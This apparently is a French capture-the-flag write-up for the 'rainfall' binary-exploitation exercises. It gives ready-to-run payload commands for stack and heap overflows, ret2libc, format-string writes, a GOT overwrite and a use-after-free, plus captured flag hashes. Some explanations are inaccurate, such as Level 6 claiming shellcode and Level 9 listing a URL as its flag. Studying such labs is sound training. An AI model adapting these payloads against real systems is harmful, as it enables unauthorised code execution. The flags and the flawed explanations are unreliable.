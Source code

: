 # rainfall
## Level 0

**Exploit**: Buffer Overflow simple  
**Commande**: `./level0 423`  
**Explication**: Dans ce cas, l'exploit consiste à profiter d'une vulnérabilité de débordement de tampon. En passant l'argument 423 au programme level0, nous dépassons la taille du tampon prévu, ce qui nous permet d'écraser des données adjacentes en mémoire, y compris l'adresse du pointeur de retour. Cela nous permet de contrôler le flux d'exécution et d'obtenir le contenu du fichier .pass de l'utilisateur level1.
**Flag**: 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a

**Sources**:
- Aucune

---

## Level 1

**Exploit**: Buffer Overflow avec redirection de flux d'exécution  
**Commande**: `python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit2; cat /tmp/exploit - | ./level1`  
**Explication**: Dans cet exploit, nous avons dépassé la taille du tampon prévu en imprimant 76 caractères "a", suivis de l'adresse 0x08 04 84 44, qui est l'adresse de la fonction run. Cette adresse sera utilisée comme nouvelle adresse de retour, ce qui nous permettra de rediriger l'exécution vers la fonction run.
**Flag**: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

**Sources**:

- https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/
- https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process
- https://stackoverflow.com/questions/44469372/exploiting-buffer-overflow-using-gets-in-a-simple-c-program
- https://www.kali-linux.fr/hacking/overflows-passons-a-la-pratique

---

## Level 2

**Exploit**: Return-to-libc (ret2libc)  
**Commande**: `python -c 'print "a" * 80 + "\x3e\x85\x04\x08"  + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"' > /tmp/exploit3`  
**Explication**: Dans cet exploit, nous utilisons la technique ret2libc pour contourner les protections de sécurité. Nous utilisons les adresses des fonctions system, exit et /bin/sh de la bibliothèque libc pour exécuter une coquille système avec les privilèges de l'utilisateur.
**Flag** : 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

**Sources**:

- https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc
- https://infosecwriteups.com/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6
- http://wikisecu.fr/doku.php?id=appsysteme:ret2libc

---

## Level 3

**Exploit**: Attaque de chaîne de format  
**Commande**: `python -c 'print "\x8c\x98\x04\x08" + "%60c" + "%4$n"' > /tmp/exploit4; cat /tmp/exploit4 - | ./level3`  
**Explication**: L'exploit ici repose sur une vulnérabilité de chaîne de format. Nous utilisons la spécification %4$n pour écrire le nombre de caractères déjà imprimés dans la pile à l'adresse mémoire pointée par le quatrième argument sur la pile (qui est l'adresse de retour). Cela nous permet de contrôler le flux d'exécution.
**Flag** : b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

**Sources**:

- https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20failles%20Format%20String.pdf
- https://axcheron.github.io/exploit-101-format-strings/
- https://owasp.org/www-community/attacks/Format_string_attack

---

## Level 4

**Exploit**: Format String avec écriture arbitraire  
**Commande**: `python -c 'print "\x10\x98\x04\x08" + "%16930112c" + "%12$n"' > /tmp/exploit4`  
**Explication**: Dans cet exploit, nous utilisons la vulnérabilité de chaîne de format pour écrire une valeur arbitraire dans la mémoire. Nous écrasons l'adresse de retour avec l'adresse de la fonction info pour afficher le contenu de la mémoire.
**Flag** : 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

**Sources**:

- https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20failles%20Format%20String.pdf
- https://axcheron.github.io/exploit-101-format-strings/
- https://owasp.org/www-community/attacks/Format_string_attack

...

## Level 5

**Exploit**: GOT Overwrite
**Etapes**: 
- info function : obtenir les adresses des fonctions 
-  objdump -R level5 ===> adresses functions libc
-  objdump -t level5 | grep o ==> adresse fonctions "o"
- o : 080484a4 
- exit : 08049838
**Commande**: `python -c 'print "\x38\x98\x04\x08" + "%134513824c" + "%4$n"' > /tmp/exploit5`  
**Explication**: Dans cet exploit, nous écrasons une entrée dans la table GOT pour rediriger l'exécution vers notre propre code. Nous écrasons l'adresse de la fonction o dans la table GOT avec l'adresse de la fonction system.
**Flag** : d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31

**Sources**:

---

## Level 6

**Exploit**: Buffer Overflow avec shellcode  
**Commande**: `$(python -c 'print "a" * 72 + "\x54\x84\x04\x08"')`  
**Explication**: Ici, nous exploitons une vulnérabilité de débordement de tampon pour écraser l'adresse de retour avec l'adresse de la fonction m(). Ensuite, nous exécutons un shellcode pour obtenir un shell interactif.
**Flag** : f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

**Sources**:

---

## Level 7

**Exploit**: Heap Overflow  
**Commande**: `"$(python -c "print 'AAAABBBBCCCCDDDDEEEE\x28\x99\x04\x08'")" $(python -c "print '\xf4\x84\x04\x08'")`  
**Explication**: Dans cet exploit, nous exploitons une vulnérabilité de débordement du tas. Nous écrasons les métadonnées du tas pour rediriger l'exécution vers la fonction m(). Cela nous permet d'exécuter du code arbitraire.
**Flag** : 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9

**Sources**:

- https://security.stackexchange.com/questions/258891/heap-overflow-strcpy-on-x86-64-64bit
- https://www.youtube.com/watch?v=TfJrU95q1J4

---

## Level 8

**Exploit**: Use-After-Free  
**Commande**: `auth a; reset; service; service; service; login`  
**Explication**: Dans cet exploit, nous exploitons une vulnérabilité Use-After-Free. Nous libérons un objet, puis nous l'utilisons à nouveau pour exécuter un shell interactif. Cela se produit car l'objet libéré n'est pas correctement désalloué.
**Flag** : c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a

**Sources**:

- https://beta.hackndo.com/use-after-free/
- https://www.youtube.com/watch?v=ZHghwsTRyzQ

---

## Level 9

**Exploit**: Buffer Overflow avec shellcode  
**Commande**: `$(python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWWXXXXYYYYZZZZAAA' + '\x60\x60\xd8\xb7' + '\xe0\x9b\xd7\xb7' + '\xf4\x84\x04\x08' + '\x58\x7c\xea\xb7' ")`  
**Explication**: Comme dans les exploits précédents, nous exploitons une vulnérabilité de débordement de tampon pour écraser l'adresse de retour et exécuter un shell interactif.
**Flag** : https://shell-storm.org/shellcode/files/shellcode-827.html

**Sources**:

- https://shell-storm.org/shellcode/files/shellcode-827.html

---

Ce write-up a été préparé avec soin par [hkrifa](lien_vers_votre_profil_GitHub).

**Disclaimer**: Ces exploits ont été conçus à des fins éducatives et d'apprentissage. Ne les utilisez pas à des fins malveillantes.
